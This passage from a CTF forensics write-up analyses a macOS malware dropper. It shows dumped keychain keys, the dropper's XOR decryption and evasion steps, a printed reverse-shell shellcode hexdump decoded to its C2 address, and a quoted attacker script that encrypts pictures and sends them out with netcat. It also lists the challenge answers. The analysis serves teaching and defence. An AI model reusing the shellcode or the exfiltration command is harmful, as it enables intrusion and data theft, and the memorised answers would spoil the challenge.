            with open(os.path.join(args.output, "summary.txt"), 'w') as summary_fp:

                for line in summary_output:

                    summary_fp.write("%s\n" % line)

                    logger.info(line)

        else:

            for line in summary_output:

                logger.info(line)

  

    except KeyboardInterrupt:

        exit(0)

  

    exit(0)

  

# Some great reading on the Keychain Format can be found here:

# https://repo.zenk-security.com/Forensic/Keychain%20Analysis%20with%20Mac%20OS%20X%20Memory%20Forensics.pdf
```

so after tweaking and running the `chainbreaker.py`:
```
2025-07-30 19:00:16,305 - INFO - Runtime Command: chainbreaker.py login.keychain -a --password-prompt
2025-07-30 19:00:16,305 - INFO - Keychain: login.keychain
2025-07-30 19:00:16,305 - INFO - Keychain MD5: 870f997577873112451b2674d1791b97
2025-07-30 19:00:16,305 - INFO - Keychain 256: 5f1f5c59f8164ca882842fca173be7d769f76e0bc9944e026234f01d678b9f32
2025-07-30 19:00:16,305 - INFO - Dump Start: 2025-07-30 19:00:16.305391
[+] Master Key: 2c1f42204086006d6739c650bcb64bcd4e8942b4308f4377
[+] DB Key: 4fac89ac4d2c7c59b7e55fc08aa92b43bdd3924c817a446b
```
```

2025-07-30 18:58:41,807 - INFO -   [-] Account: peter.parker@dailybugle.com
2025-07-30 18:58:41,807 - INFO -   [-] Service: Gmail - peter.parker@dailybugle.com
2025-07-30 18:58:41,807 - INFO -   [-] Password: WebSlinger2025!
2025-07-30 18:58:41,807 - INFO -   [-] SSGP Label: ed0de6b1805158208ad272a7ec57f727
2025-07-30 18:58:41,807 - INFO -   [-] Record DBKey: b508c427e0bbbfacf7c41e4109177712388daa47e331e262
```

therefore the answer is :
```
2c1f42204086006d6739c650bcb64bcd4e8942b4308f4377_4fac89ac4d2c7c59b7e55fc08aa92b43bdd3924c817a446b_b508c427e0bbbfacf7c41e4109177712388daa47e331e262_ed0de6b1805158208ad272a7ec57f727
```

Q10/15) What is the name of the binary executed by the malicious application, and what is the SHA-256 hash of the binary? Format: *binaryname_binaryhash*

In Question 3, we sniffed out `ImageEnhancePro.app` as the culprit behind the system’s infection, found in the Downloads folder via Volatility’s `mac_list_files`. Digging into its `main.scpt` with applescript-disassembler, we saw it pulls a shady move: it grabs a file named preview from `ImageEnhancePro.app/Contents/Resources/`  and executes it via `syso-exec`, storing it as `venomPath` (suspicious much?). This makes preview the binary executed by the malicious app.
and the SHA-256 hash of this binary is `45b098a1208cf63c8ad0beab32ab6d2f9ff2dbf05b6d88382acde55170fcf559`
therefore, the answer for this question is :
```
preview_45b098a1208cf63c8ad0beab32ab6d2f9ff2dbf05b6d88382acde55170fcf559
```

Q11/15) What is the IP address and port number to which the attacker established a connection from the compromised system? Format: *ipaddress:port*
Since we already know that the  malicious binary is a  Mach-O executable named `preview`. Let's start by checking what we're dealing with:


Since we already know that the malicious binary is a Mach-O executable named `preview`, let's start by checking what we're dealing with:

```bash
$ file preview
preview: Mach-O 64-bit executable x86_64
```

## Entry Point Analysis (`main` @ 0x100001D80)

Loading the binary in IDA Pro and analyzing the main function reveals the following execution flow:

#### Stage 0: Initialization

- **Command line arguments stored** to static variables
- **Swift runtime initialization** via `swift_once()`
- **Large embedded payload loaded** (34,536 bytes) starting with magic bytes `1f 8b` (gzip header)
    - Stored at address `0x1000099E0`
    - Contains filename: `reverse_shell_encrypted`
- **Request variable set to 31** (PT_DENY_ATTACH for ptrace)
- **Main routine called** at `0x1000059D0`


#### Stage 1: Anti-Debugging Check (`sub_100005420` @ 0x100005420)

The binary first performs an anti-debugging check:

**Key Points:**

- Calls `ptrace(PT_DENY_ATTACH, 0, 0, 0)` where PT_DENY_ATTACH = 31
- **Returns false if debugger detected** → exits with code 1
- This prevents dynamic analysis with debuggers like lldb/gdb
- Must be bypassed or patched for analysis

```c
bool anti_debug_check() {
    return ptrace(31, 0, 0, 0) != -1;  // PT_DENY_ATTACH
}
```


#### Stage 2: System Integrity Protection Check (`sub_100005470` @ 0x100005470)

The binary checks if macOS System Integrity Protection (SIP) is enabled:

**Execution Flow:**

1. **Creates NSTask process**
    
2. **Decrypts command path:**
    
    - Encrypted: `481d4347183d02001e041b45121c5959`
    - XOR key: `gh057_kn1gh7`
    - **Decrypted: `/usr/bin/csrutil`**
3. **Decrypts argument:**
    
    - Encrypted: `141c5141422c`
    - **Decrypted: `status`**
4. **Executes:** `/usr/bin/csrutil status`
    
5. **Captures output** via pipe/NSPipe
    
6. **Checks for string:**
    
    - Encrypted: `020651575b3a0f`
    - **Decrypted: `enabled`**
7. **Returns true if SIP is enabled** → binary exits
    
8. **Returns false if SIP is disabled** → continues execution
    

**Purpose:** Malware checks if security features are active before proceeding


#### Stage 3: Hardware UUID Extraction (`sub_100002930` @ 0x100002930)

The binary fingerprints the system to create a unique decryption key:

**Execution Flow:**

1. **Creates NSTask process**
    
2. **Decrypts system profiler path:**
    
    - Encrypted: `481d4347182c09075f481b4e141c5558682f1901570e045215`
    - **Decrypted: `/usr/sbin/system_profiler`**
3. **Decrypts hardware parameter:**
    
    - Encrypted: `34387854453b1c0f43022c561309644c473a`
    - **Decrypted: `SPHardwareDataType`**
4. **Executes:** `/usr/sbin/system_profiler SPHardwareDataType`
    
5. **Parses output** looking for:
    
    - Encrypted search string: `2f094251403e190b11323d7e23`
    - **Decrypted: `Hardware UUID`**
6. **Extracts UUID value** from line containing "Hardware UUID:"
    
    - Splits by ": " delimiter
    - Takes second element
    - Trims whitespace
7. **Returns Hardware UUID** (e.g., `XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX`)
    

**Purpose:** Creates machine-specific decryption key for anti-analysis


#### Stage 4: Gzip Decompression (`sub_1000030E0` @ 0x1000030E0)

The embedded 34KB payload is decompressed:

**Key Points:**

- Takes the gzip payload from global storage
- **Decompresses using gunzip algorithm**
- Payload contains encrypted reverse shell script
- Likely writes to temporary location: `/tmp/decompressed_payload`


#### Stage 5: SHA-256 Hash Derivation (`sub_1000042B0` @ 0x1000042B0)

Creates encryption key from Hardware UUID:

**Execution Flow:**

1. **Takes Hardware UUID** from Stage 3
    
2. **Executes hashing tool:**
    
    - Encrypted path: `481d4347183d02001e140056141d5d`
    - **Decrypted: `/usr/bin/shasum`**
3. **With parameter:**
    
    - Encrypted: `555d06`
    - **Decrypted: `256`**
4. **Command:** `/usr/bin/shasum -a 256 <<< "Hardware-UUID"`
    
5. **Returns SHA-256 hash** of the Hardware UUID
    

**Purpose:** Derives unique decryption key per machine


#### Stage 6: Payload Decryption (`sub_100004B40` @ 0x100004B40)

The decompressed payload is decrypted:

**Key Points:**

- Uses SHA-256 hash as encryption key
- Applies additional transformations
- **OpenSSL operations involved:**
    - Encrypted path: `481d4347183d02001e081852091b4359`
    - **Decrypted: `/usr/bin/openssl`**
    - Operation: `dgst`
    - Algorithm: `-md5`


#### Stage 7: Additional Encryption Layer (`sub_100004320` @ 0x100004320)

Applies final encryption transformation:

**Key Points:**

- Takes decrypted payload
- Applies MD5-based operations
- Outputs final executable payload
- Validates integrity


#### Stage 8: Payload Writing & Execution

The malicious payload is written and executed:

**File Writing:**

1. **Output path decrypted:**
    
    - Encrypted: `481c5d45183c04031f0618470b0d1e40473b0a1a54141e54`
    - **Decrypted: `/tmp/com.apple.updatesvc`**
    - Masquerades as legitimate Apple service
2. **Writes decrypted payload** to `/tmp/com.apple.updatesvc`
    

**Make Executable:**

1. **Command path decrypted:**
    
    - Encrypted: `480a595b183c03035e03`
    - **Decrypted: `/bin/chmod`**
2. **Permission flag decrypted:**
    
    - Encrypted: `4c10`
    - **Decrypted: `+x`**
3. **Executes:** `/bin/chmod +x /tmp/com.apple.updatesvc`
    

**Launch Payload:**

1. **First execution** - Launches `/tmp/com.apple.updatesvc`
2. **Waits for completion**
3. **Second execution** - Launches again (persistence mechanism)
4. **Binary exits with code 0**


##### XOR Decryption Algorithm

All encrypted strings use simple XOR with hardcoded key:

```python
def xor_decrypt(hex_string, key="gh057_kn1gh7"):
    data = bytes.fromhex(hex_string)
    key_bytes = key.encode('utf-8')
    result = []
    for i in range(len(data)):
        result.append(data[i] ^ key_bytes[i % len(key_bytes)])
    return bytes(result).decode('utf-8')
```


##### Summary of Encrypted Strings

|Purpose|Encrypted Hex|Decrypted Value|
|---|---|---|
|System Profiler|`481d4347182c09075f481b4e141c5558682f1901570e045215`|`/usr/sbin/system_profiler`|
|Hardware Type|`34387854453b1c0f43022c561309644c473a`|`SPHardwareDataType`|
|UUID Identifier|`2f094251403e190b11323d7e23`|`Hardware UUID`|
|Hash Tool|`481d4347183d02001e140056141d5d`|`/usr/bin/shasum`|
|Hash Algorithm|`555d06`|`256`|
|Crypto Tool|`481d4347183d02001e081852091b4359`|`/usr/bin/openssl`|
|Crypto Op|`030f4341`|`dgst`|
|Hash Type|`4a055400`|`-md5`|
|Output File|`481c5d45183c04031f0618470b0d1e40473b0a1a54141e54`|`/tmp/com.apple.updatesvc`|
|Decompressed Path|`481c5d45183b0e0d5e0a1845021b435053001b0f480b075603`|`/tmp/decompressed_payload`|
|Decompressor|`481d4347183d02001e001d591d0140`|`/usr/bin/gunzip`|
|SIP Check Tool|`481d4347183d02001e041b45121c5959`|`/usr/bin/csrutil`|
|SIP Status|`141c5141422c`|`status`|
|SIP Enabled|`020651575b3a0f`|`enabled`|
|Permission Tool|`480a595b183c03035e03`|`/bin/chmod`|
|Permission Flag|`4c10`|`+x`|


#### Attack Chain Summary:




- **XOR Key:** `gh057_kn1gh7` (for string obfuscation)
- **Payload Decryption Key:** SHA-256 hash of `Hardware-UUID` & **IV:** MD5 hash of `Hardware-UUID`
- **Compression:** `gzip` (magic bytes: `1f 8b`)
- **Decompressed Path:** `/tmp/decompressed_payload`
- **Final Path:** `/tmp/com.apple.updatesvc`
- **Hash:** Extract gzip from `0x1000099E0`, decompress, calculate SHA-256


#### Tools & Techniques Used

**Static Analysis:**

- IDA Pro for disassembly/decompilation
- XOR decryption script for string deobfuscation
- Hex editor for payload extraction

**Dynamic Analysis Prevention:**

- PT_DENY_ATTACH blocks debuggers
- SIP check prevents execution in secure environments
- Hardware UUID binding prevents analysis on different machines

**Evasion Techniques:**

- Multi-layer encryption (XOR + Hardware-UUID-based)
- Gzip compression
- String obfuscation
- Legitimate tool abuse (system_profiler, shasum, openssl)
- Service masquerading (com.apple.updatesvc)

#### Payload Analysis - com.apple.updatesvc

Now analyzing the decrypted payload that was written to `/tmp/com.apple.updatesvc`. Loading it into IDA Pro reveals a much simpler structure compared to the dropper.

#### Payload Metadata

```
File: com.apple.updatesvc
Type: Mach-O 64-bit executable x86_64
Size: 17,204 bytes (0x4334)
MD5: b79b2cb56b00cfdb7e046858afc51449
SHA-256: 98e656aa1d6dbb2781eb41c28897c4b3d52afdb80c2e7ab0861196004f15a562
Base Address: 0x100000000
Code Size: 0x30d8
```

The payload has a clean Mach-O structure:

**Segments:**

- `__TEXT` - Executable code and read-only data
- `__DATA` - Writable data and global variables
- `__LINKEDIT` - Dynamic linker information

**Entry Points:**

- `start` @ 0x100000C70 (calls `_main`)
- `_main` @ 0x100000CB0 (primary execution)
- 
**Key Observations:**

- Much smaller than the dropper (17KB vs previous binary)
- Minimal imports - only basic libc functions
- Single main function with straightforward logic
- Contains embedded shellcode


##### Entry Point Analysis (`main` @ 0x100000CB0)

The payload's main function is surprisingly simple - it's a **shellcode loader**:

###### Execution Flow:

**1. Stack Buffer Allocation**

```c
_BYTE __dst[8201];  // Large stack buffer for shellcode
```

- Allocates **8,201 bytes** on the stack
- Used to store the shellcode before execution

**2. Shellcode Copy to Stack**

```c
memcpy(__dst, "\xB8a", sizeof(__dst));
```

- Copies **8,201 bytes of embedded shellcode** to stack buffer
- Shellcode starts with bytes: `B8 61` (in hex)
- `B8` = `MOV EAX, imm32` (x86 instruction)
- This is the beginning of position-independent shellcode

**3. Memory Allocation with Execute Permission**

```c
v5 = mmap(0, 0x2028, 7, 4098, -1, 0);
```

**mmap Parameters Breakdown:**

- `addr = 0` → Let kernel choose address
- `length = 0x2028` (8,232 bytes) → Size of memory region
- `prot = 7` → **PROT_READ | PROT_WRITE | PROT_EXEC**
    - Read permission: 0x1
    - Write permission: 0x2
    - Execute permission: 0x4
    - Combined: **0x7 = RWX (Read-Write-Execute)**
- `flags = 4098` → **MAP_PRIVATE | MAP_ANONYMOUS**
    - MAP_PRIVATE (0x2): Changes not visible to other processes
    - MAP_ANONYMOUS (0x1000): Not backed by file
    - Combined: 0x1002 = 4098
- `fd = -1` → No file descriptor (anonymous mapping)
- `offset = 0` → No offset

**Purpose:** Allocates executable memory region to bypass DEP (Data Execution Prevention)

**4. Error Handling**

```c
if ( v5 == (void (*)(void))-1LL ) {
    perror("mmap");
    exit(-1);
}
```

- Checks if mmap failed
- Exits if unable to allocate executable memory

**5. Copy Shellcode to Executable Memory**

```c
__inline_memcpy_chk(v5, __dst, 8201);
```

- Copies **8,201 bytes** from stack buffer to executable memory region
- Uses checked memcpy to prevent buffer overflows
- Prepares shellcode for execution

**6. Execute Shellcode**

```c
v5();  // Call the shellcode as a function
```

- **Treats memory region as function pointer**
- Jumps to shellcode and executes it
- This is where the reverse shell connection happens

**7. Return (Never Reached)**

```c
return 0;
```

- Main function returns 0
- **Note:** Likely never reached if shellcode spawns shell


##### Stack Canary Protection

**Notable Security Feature:**

```c
___stack_chk_fail  // Stack canary check function present
```

- Binary compiled with stack protection (`-fstack-protector`)
- Helps prevent buffer overflow exploitation
- Ironic: malware using security features

##### Imported Functions

The payload uses minimal imports:

|Function|Purpose|
|---|---|
|`memcpy`|Copy shellcode to stack buffer|
|`___memcpy_chk`|Bounds-checked memory copy|
|`mmap`|Allocate executable memory (RWX)|
|`perror`|Print error messages|
|`exit`|Terminate on error|
|`___stack_chk_fail`|Stack canary violation handler|

**Analysis:**

- Minimal footprint reduces detection surface
- No network functions imported (uses syscalls directly in shellcode)
- Self-contained shellcode execution

##### Shellcode Properties:

- **Size:** 8,201 bytes
- **Type:** Position-independent x86-64 shellcode
- **Purpose:** TCP reverse shell to C2 server
- **Shell:** `/bin/sh`

##### Security Implications:

- **DEP Bypass:** Uses mmap with PROT_EXEC
- **ASLR Independent:** Position-independent shellcode
- **Detection Evasion:** No suspicious imports (syscalls in shellcode)


#### Shellcode Analysis:

##### Method 1: Manual Hex Analysis

The IP address and port are embedded in the shellcode:

**Extraction Method:**

1. Open `com.apple.updatesvc` in hex editor
2. Search for shellcode section (starting at file offset ~0xF2C)
3. Look for syscall patterns and sockaddr_in structure
4. Extract IP (4 bytes) and Port (2 bytes) in network byte order

**Shellcode hexdump:**
```
B8 61 00 00 02 6A 02 5F 6A 01 5E 48 31 D2 0F 05
49 89 C4 48 89 C7 B8 62 00 00 02 48 31 F6 56 48
BE 02 00 11 5C C0 A8 19 03 56 48 89 E6 6A 10 5A
0F 05 4C 89 E7 B8 5A 00 00 02 48 C7 C6 02 00 00
00 0F 05 B8 5A 00 00 02 48 C7 C6 01 00 00 00 0F
05 B8 5A 00 00 02 48 C7 C6 00 00 00 00 0F 05 48
31 C0 B8 3B 00 00 02 E8 09 00 00 00 2F 62 69 6E
2F 73 68 00 00 5F 48 31 D2 52 57 48 89 E6 0F 05
```

**Size:** 8,201 bytes (0x2009)

**Starting Bytes:** `B8 61 ...`

- `B8` = MOV EAX opcode (x86-64)
- Indicates position-independent shellcode

**Known String:** `/bin/sh` (found at address 0x100000F94)

- Confirms this spawns a shell
- Used by shellcode to execute `/bin/sh`


Based on the size and structure, this shellcode likely performs:

1. **Network Socket Creation**
    
    - Creates TCP socket
    - Connects to attacker's C2 server
2. **File Descriptor Duplication**
    
    - Duplicates stdin/stdout/stderr to socket
    - Redirects shell I/O to network connection
3. **Shell Execution**
    
    - Executes `/bin/sh`
    - Provides interactive shell to attacker


##### Common Shellcode Pattern:

This matches the pattern of a **reverse shell** with these syscalls:

```
socket()  -> Create network socket
connect() -> Connect to IP:PORT
dup2()    -> Redirect stdin/stdout/stderr to socket
execve()  -> Execute /bin/sh
```


**Search Pattern:**

```
Look for syscall patterns:
- socket(AF_INET, SOCK_STREAM, 0)
- connect(sockfd, &sockaddr, sizeof(sockaddr))

sockaddr_in structure:
  +0: sin_family (2 bytes) = 0x0002 (AF_INET)
  +2: sin_port (2 bytes)   = PORT in network byte order
  +4: sin_addr (4 bytes)   = IP in network byte order
```

#### Extracting IP Address and Port from Shellcode


```
B8 61 00 00 02 6A 02 5F 6A 01 5E 48 31 D2 0F 05
49 89 C4 48 89 C7 B8 62 00 00 02 48 31 F6 56 48
BE 02 00 11 5C C0 A8 19 03 56 48 89 E6 6A 10 5A
0F 05 4C 89 E7 B8 5A 00 00 02 48 C7 C6 02 00 00
00 0F 05 B8 5A 00 00 02 48 C7 C6 01 00 00 00 0F
05 B8 5A 00 00 02 48 C7 C6 00 00 00 00 0F 05 48
31 C0 B8 3B 00 00 02 E8 09 00 00 00 2F 62 69 6E
2F 73 68 00 00 5F 48 31 D2 52 57 48 89 E6 0F 05
```


##### Step-by-Step Extraction:

###### Step 1: Identify the `connect()` Syscall

Look for the **connect syscall number** in the shellcode:

```
Line 2: B8 62 00 00 02
        ^^^^^^^^^^^^^^
        MOV EAX, 0x2000062  (connect syscall)
```

**Key Indicator:** `B8 62 00 00 02` = syscall number for `connect()` on macOS

###### Step 2: Find the `movabs` Instruction

After the connect syscall number, look for the **`movabs` instruction** that loads the sockaddr_in structure:

```
Line 2-3: 48 BE 02 00 11 5C C0 A8 19 03
          ^^^^^  ^^^^^^^^^^^^^^^^^^^^^^
          movabs    8-byte immediate value
```

**Breakdown:**
- `48 BE` = `MOVABS RSI, imm64` (load 64-bit immediate into RSI)
- Following 8 bytes = the sockaddr_in structure

###### Step 3: Extract the 8 Bytes

```
02 00 11 5C C0 A8 19 03
```

These 8 bytes contain the complete socket address structure!


##### Understanding sockaddr_in Structure

The `sockaddr_in` structure in C looks like this:

```c
struct sockaddr_in {
    uint16_t sin_family;  // Address family (AF_INET = 2)
    uint16_t sin_port;    // Port number (network byte order)
    uint32_t sin_addr;    // IP address (network byte order)
};
```

**Memory Layout (8 bytes total):**
```
+0x00: [2 bytes] sin_family (little-endian on x86-64)
+0x02: [2 bytes] sin_port   (big-endian / network byte order)
+0x04: [4 bytes] sin_addr   (big-endian / network byte order)
```


##### Decoding the Bytes

Let's decode `02 00 11 5C C0 A8 19 03` field by field:

##### Field 1: sin_family (bytes 0-1)

```
02 00
```

**Interpretation:**
- Read as **little-endian** (x86-64 architecture)
- Value = `0x0002` = **2 decimal**
- Meaning: **AF_INET** (IPv4 address family)

IPv4 socket

##### Field 2: sin_port (bytes 2-3)

```
11 5C
```

**Interpretation:**
- Read as **big-endian** (network byte order - standard for TCP/IP)
- Value = `0x115C` in hex
- Convert to decimal:

```
0x115C = (1 × 16³) + (1 × 16²) + (5 × 16¹) + (12 × 16⁰)
       = (1 × 4096) + (1 × 256) + (5 × 16) + (12 × 1)
       = 4096 + 256 + 80 + 12
       = 4444 decimal
```

Port **4444**

**Quick conversion using Ipython:**
```python
In [2]: int('0x115C', 16)
Out[2]: 4444
```


##### Field 3: sin_addr (bytes 4-7)

```
C0 A8 19 03
```

**Interpretation:**
- Read as **big-endian** (network byte order)
- Each byte represents one octet of the IP address
- Convert each hex byte to decimal:

| Hex Byte | Decimal | Position     |
| -------- | ------- | ------------ |
| `C0`     | 192     | First octet  |
| `A8`     | 168     | Second octet |
| `19`     | 25      | Third octet  |
| `03`     | 3       | Fourth octet |

**Conversion:**
```
C0 (hex) = 12×16 + 0 = 192 (decimal)
A8 (hex) = 10×16 + 8 = 168 (decimal)
19 (hex) = 1×16 + 9 = 25 (decimal)
03 (hex) = 0×16 + 3 = 3 (decimal)
```

 IP Address **192.168.25.3**


##### Visual Breakdown

```
Original bytes: 02 00 11 5C C0 A8 19 03
                │  │  │  │  │  │  │  │
                │  │  │  │  └──┴──┴──┴─── IP Address
                │  │  └──┴─────────────── Port Number
                └──┴────────────────────── Address Family

Field Breakdown:
┌────────────┬──────────┬──────────────────────┐
│ sin_family │ sin_port │ sin_addr             │
├────────────┼──────────┼──────────────────────┤
│ 02 00      │ 11 5C    │ C0 A8 19 03          │
│ (LE)       │ (BE)     │ (BE)                 │
├────────────┼──────────┼──────────────────────┤
│ 0x0002     │ 0x115C   │ 0xC0A81903           │
│ = 2        │ = 4444   │ = 192.168.25.3       │
│ = AF_INET  │          │                      │
└────────────┴──────────┴──────────────────────┘

LE = Little Endian (Intel x86-64 byte order)
BE = Big Endian (Network byte order)
```


##### Complete Assembly Context

Here's the relevant assembly with annotations:

```asm
; Line 2: Setup connect syscall
B8 62 00 00 02          mov eax, 0x2000062      ; connect() syscall
48 31 F6                xor rsi, rsi            ; Clear RSI
56                      push rsi                ; Push NULL (padding)

; Line 3: Load sockaddr_in structure
48 BE 02 00 11 5C       movabs rsi, 0x0319A8C0  ; Load address structure
      C0 A8 19 03                   5C110002    ; (split across lines)
      
      ┌─ Breakdown of 0x0319A8C05C110002:
      │  Little-endian read (bottom to top):
      │  02 00 11 5C C0 A8 19 03
      │  
      │  AF_INET=2, Port=4444, IP=192.168.25.3
      └────────────────────────────────────────

56                      push rsi                ; Push to stack
48 89 E6                mov rsi, rsp            ; RSI = pointer to sockaddr
6A 10                   push 0x10               ; sizeof(sockaddr_in) = 16
5A                      pop rdx                 ; RDX = 16 (addrlen)

; Line 4: Execute connect
0F 05                   syscall                 ; connect(sockfd, &sockaddr, 16)
```

Here's a Python script to automatically extract IP and port:

```python
def extract_ip_port_from_shellcode(shellcode_hex):
    """
    Extract IP address and port from x86-64 connect() shellcode
    """
    # Remove spaces and convert to bytes
    shellcode = bytes.fromhex(shellcode_hex.replace(' ', ''))
    
    # Look for movabs instruction (48 BE) followed by 8 bytes
    for i in range(len(shellcode) - 9):
        if shellcode[i:i+2] == b'\x48\xbe':
            # Extract the 8-byte sockaddr_in structure
            sockaddr_bytes = shellcode[i+2:i+10]
            
            # Parse sin_family (little-endian, 2 bytes)
            sin_family = int.from_bytes(sockaddr_bytes[0:2], 'little')
            
            # Parse sin_port (big-endian / network byte order, 2 bytes)
            sin_port = int.from_bytes(sockaddr_bytes[2:4], 'big')
            
            # Parse sin_addr (4 bytes, each byte is an octet)
            ip_octets = sockaddr_bytes[4:8]
            ip_address = '.'.join(str(octet) for octet in ip_octets)
            
            if sin_family == 2:  # AF_INET
                return ip_address, sin_port
    
    return None, None

# Your shellcode
shellcode = """
B8 61 00 00 02 6A 02 5F 6A 01 5E 48 31 D2 0F 05
49 89 C4 48 89 C7 B8 62 00 00 02 48 31 F6 56 48
BE 02 00 11 5C C0 A8 19 03 56 48 89 E6 6A 10 5A
0F 05 4C 89 E7 B8 5A 00 00 02 48 C7 C6 02 00 00
00 0F 05 B8 5A 00 00 02 48 C7 C6 01 00 00 00 0F
05 B8 5A 00 00 02 48 C7 C6 00 00 00 00 0F 05 48
31 C0 B8 3B 00 00 02 E8 09 00 00 00 2F 62 69 6E
2F 73 68 00 00 5F 48 31 D2 52 57 48 89 E6 0F 05
"""

ip, port = extract_ip_port_from_shellcode(shellcode)
print(f"IP Address: {ip}")
print(f"Port: {port}")
print(f"C2 Server: {ip}:{port}")
```

**Output:**
```
IP Address: 192.168.25.3
Port: 4444
C2 Server: 192.168.25.3:4444
```


Therefore, the IP address and port number to which the attacker established a connection from the compromised system is : `192.168.25.3:4444`

Q12/15) What are the key and initialization vector (IV) used by the malicious application to decrypt its payload, and what compression method was used for the payload ? Format: *key_iv_compression*

From the analysis of the `preview` binary in Q11 we can see that key and and initialization vector (IV)  used by the malicious application to decrypt its payload is derived from the `Hardware-UUID` of the device, which is unique for each and every device when looking up online we found that we can find this `Hardware-UUID` from a particular artifact:
.png)
Source: https://discussions.apple.com/thread/7759719?sortBy=rank
From the output of the `mac_list_files` usin volatility 2 , we can get the path of the Keychain files under `~/Library/Keychains` we can get the `Hardware-UUID` of this device:
```
0xffffff80247d4000 /Users/admin/Library/Keychains/564D245B-513D-024D-D236-4BF7887A32FC/keychain-2.db-wal
```

Hence from observing the above path we can conclude that the `Hardware-UUID` is `564D245B-513D-024D-D236-4BF7887A32FC`
Now from the previous analysis of the `preview` binary we know that :
- **Key:** SHA-256 hash of `Hardware-UUID` 
- **IV:** MD5 hash of `Hardware-UUID`
So the key and iv are `7b8049c197d6f91bab9d983dca12f743cfdc3bdc4ff0f89349f1fdab6e46ce8c` and `0878db6e1ec69f91623fa63250e8fc3b` respectively , we can also get the compression method used from our previous analysis, that is gzip
Therefore, the answer for this question is :

```
7b8049c197d6f91bab9d983dca12f743cfdc3bdc4ff0f89349f1fdab6e46ce8c_0878db6e1ec69f91623fa63250e8fc3b_gzip
```

Q13/15) At what path does the malicious application write the decrypted payload to, and what is the SHA-256 hash of the decrypted payload? Format: */binary/path_hash*
We already saw from our previous analysis of the `preview` binary that the decrypted payload was being written to the path `/tmp/com.apple.updatesvc` and the SHA-256 hash is `98e656aa1d6dbb2781eb41c28897c4b3d52afdb80c2e7ab0861196004f15a562` 
Therefore, the answer to this question is :

```
/tmp/com.apple.updatesvc_98e656aa1d6dbb2781eb41c28897c4b3d52afdb80c2e7ab0861196004f15a562
```


Q14/15) What are the names of the files that have been exfiltrated by the attacker from the host? Format: *File names in ascending order, seperated by commas (eg. file_name1,file_name2,...,file_name)*

After the decrypted reverse shell payload establishes connection, while looking under `/tmp` directory where the decrypted payload (shellcode loader) was written to, we found a shell script with a random name `dubvm20.sh` , which looked suspicious upon inspecting the content :

```sh
cd /users/admin/Pictures/spidey
zip /tmp/pics.zip *.jpeg
openssl enc -aes-256-cbc -salt -in /tmp/pics.zip -out /tmp/pics.enc -k w3_4r3_v3n0m
cat /tmp/pics.enc| nc 192.168.25.3 9999
```

we can clearly see that the attacker is trying to exfiltrate the files under  `/users/admin/Pictures/spidey` by zipping all of them into `pics.zip` storing it under `/tmp`
and then later using `openssl` to encrypt  the zip file before sending it over the `netcat` connection
we can also find the `pics.zip` under `/tmp` , after dumping `pics.zip` using `mac_dump_file` plugin from volatility 2:

```
Volatility Foundation Volatility Framework 2.6.1
Wrote 59482 bytes to pics.zip from vnode at address ffffff8028692870
```
we can unzip `pics.zip` and then see the files that have been exfiltrated by the attacker:


*700.jpeg*

*778.jpeg*

*779.jpeg*

*780.jpeg*

Therefore, the answer to this question is :

```
700.jpeg,778.jpeg,779.jpeg,780.jpeg
```


Q15/15) What is the encryption key used to secure the exfiltrated data, and what port number was used for the exfiltration process? Format: *key:port*

As we can see from the previous analysis of `dubvm20.sh`, the encryption key used to secure the exfiltrated data is `w3_4r3_v3n0m` and the port number used for exfiltration process is `9999`

Therefore, the answer to this question is :

```
w3_4r3_v3n0m:9999
```
### Flag

`bi0sctf{Ey3s_1ung5_p4ncr3a5_5o_m4ny_5n4cks_s0_l1ttl3_t1m3!!}`


- Remember: **"With great power comes great responsibility"** 

*P.S.: If you found this writeup helpful or have questions about any of the techniques used, feel free to reach out on Discord . Always happy to discuss anything related to DFIR
continue learning!* 🕷️

### Author

[gh0stkn1ght](https://twitter.com/mspr75)
